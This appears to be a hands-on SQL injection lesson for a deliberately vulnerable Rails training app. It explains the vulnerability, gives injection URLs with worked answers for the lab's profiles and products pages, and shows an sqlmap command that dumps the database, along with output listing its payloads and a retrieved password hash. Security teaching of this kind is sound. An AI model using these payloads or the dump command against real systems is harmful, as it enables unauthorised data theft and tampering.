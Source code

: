 # SQL Injection

### Background:

A SQL injection vulnerability occurs whenever user input is used in a SQL query without any escaping, allowing the user to append and execute their own SQL.
For example, the following query would be vulnerable to SQL injection if constructed with a user-supplied name and password:

```ruby
"SELECT * FROM users WHERE name='" + name + "' and password='" + password + "' LIMIT 1"
```

We can provide a password like `' or '1'='1` and it would cause the full query to become:

```sql
SELECT * FROM users WHERE name='user' and password='' or '1'='1' LIMIT 1
```

This reads as:
- Select the first user where the name is `user` and the password is blank
- OR where the condition `'1'='1'` is true.

Since `'1'='1'` is always true, this would effectively select the first user, without needing to know their username or password.

When it comes to Rails, [ActiveRecord](http://guides.rubyonrails.org/active_record_basics.html) makes this easier to avoid. We almost never have to write full SQL queries like the example above. However, there are still some ways to get into trouble. For example, there are several [ActiveRecord query methods that do construct chunks of raw SQL](https://rails-sqli.org/), and can be very dangerous when combined with unescaped user input.

## Example

https://hack.jackmc.xyz/profiles/1

When visiting the above link, we see the profile with the id value of 1 as expected. However, if we provide an unexpected id value we can see a SQL error: https://hack.jackmc.xyz/profiles/test

```
ActiveRecord::StatementInvalid in ProfilesController#show
Mysql2::Error: Unknown column 'test' in 'where clause': SELECT `profiles`.* FROM `profiles` WHERE (id=test) LIMIT 1
```

Let's append some SQL to make this return a profile, even when providing it an invalid `id`: https://hack.jackmc.xyz/profiles/1337

Similar to the above admin login example, this will return the first profile: [https://hack.jackmc.xyz/profiles/1337%20or%20'a'='a'](https://hack.jackmc.xyz/profiles/1337%20or%20'a'='a')

---
## Try it out!
This app is vulnerable to SQL injection on the products page.

### Questions:
#### Can you identify the vulnerable parameter?
<details>
  <summary><b>Hint</b></summary>
  What characters would cause unexpected behaviour? The background section, and resources linked below should help with this.
</details>

<details>
  <summary><b>Answer</b></summary>
  The vulnerable parameter is <code>search</code>. This is evident when searching for something with a single quote <code>'</code>. Ex:
  https://hack.jackmc.xyz/products?utf8=✓&search=evil'&commit=
</details>

#### Can you use something similar to the `or 1=1` trick to return other products here?
<details>
  <summary><b>Hint</b></summary>
Look at the rails log to see the query being executed. The <code>LIKE</code> clause has wildcard characters on either side and makes this a bit trickier.
</details>

<details>
  <summary><b>Answer</b></summary>

[https://hack.jackmc.xyz/products?search=test%27or%271%25%27=%271](https://hack.jackmc.xyz/products?search=test%27or%271%25%27=%271)

This works because the final query will be:

```
SELECT `products`.* FROM `products` WHERE (user_id = 1 AND name LIKE '%test'or'1%'='1%')
```

And <code>'1%'='1%'</code> is also true.
</details>

#### What is the impact of this kind of bug? Are there common tools that help with exploitation?
<details>
  <summary><b>Hint</b></summary>
What else is in this database? Are we only concerned about access to the data?
</details>

<details>
  <summary><b>Answer</b></summary>
This is a very high impact vulnerability. It would allow access to anything in the same database. In this case that means not only the products of other users, but also their profile information and password hashes.
Note that access isn't the only concern here, since we can actually do whatever the current database user could do. This often means that modifying data or dropping tables is also possible.
<a href="https://sqlmap.org/">SQLmap</a> is a common tool for exploiting these types of flaws. Using SQLmap the database can be dumped quite easily, with a command such as:

```
python sqlmap.py -u https://hack.jackmc.xyz/products?search=pikachu \
--cookie="_learn_to_hack_session=<cookie value>" --dump
```
...
```
---
Parameter: search (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: search=pikachu') AND 2162=2162 AND ('mMpj'='mMpj

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: search=pikachu') AND (SELECT 1986 FROM(SELECT COUNT(*),CONCAT(0x7170716a71,(SELECT (ELT(1986=1986,1))),0x716a6a6271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND ('KPfZ'='KPfZ

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SLEEP)
    Payload: search=pikachu') AND (SELECT * FROM (SELECT(SLEEP(5)))ROZg) AND ('DfLC'='DfLC
---
```
...
```
[16:09:13] [INFO] retrieved: dev@shopify.com
[16:09:14] [INFO] retrieved: $2a$11$85jaXEbLhrShlCYZC0x3COxpC74NZws3oCNb.fm5L9RUHKSxQ/ofS
[16:09:14] [INFO] retrieved: 1
[16:09:15] [INFO] retrieved: 2018-06-15 18:24:13
```

</details>

### Done?

There's one more of these hiding in the app! See if you can track it down.

### Resources:
https://www.owasp.org/index.php/SQL_Injection

https://rails-sqli.org/

http://gavinmiller.io/2015/fixing-sql-injection-vulnerabilities/

https://www.youtube.com/watch?v=2GHWAYys1is (2016 RailsConf Talk - "Will it inject?")

